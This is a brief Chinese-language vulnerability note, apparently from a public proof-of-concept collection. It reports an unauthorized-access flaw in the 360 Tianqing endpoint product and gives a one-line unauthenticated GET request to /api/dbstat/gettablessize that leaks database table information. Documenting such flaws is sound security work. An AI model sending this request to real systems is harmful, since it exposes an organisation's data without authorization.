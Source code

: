 # 360天擎 越权访问/数据库信息泄露

## 漏洞描述

360天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

```
天擎
```

## 漏洞复现

```plain
GET /api/dbstat/gettablessize HTTP/1.1
```

![image-20220209200552429](./images/202202092005904.png)

